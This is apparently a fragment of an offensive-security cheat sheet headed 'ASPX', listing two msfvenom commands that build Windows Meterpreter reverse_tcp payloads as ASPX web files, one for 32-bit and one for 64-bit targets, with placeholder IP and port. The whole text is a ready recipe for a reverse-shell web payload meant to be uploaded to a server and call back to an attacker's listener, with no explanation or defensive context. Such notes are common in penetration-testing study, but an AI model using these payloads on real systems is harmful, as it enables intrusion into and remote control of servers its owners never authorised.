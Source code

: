 # ASPX

- **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x86.aspx`

- **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f aspx -o met-x64.aspx`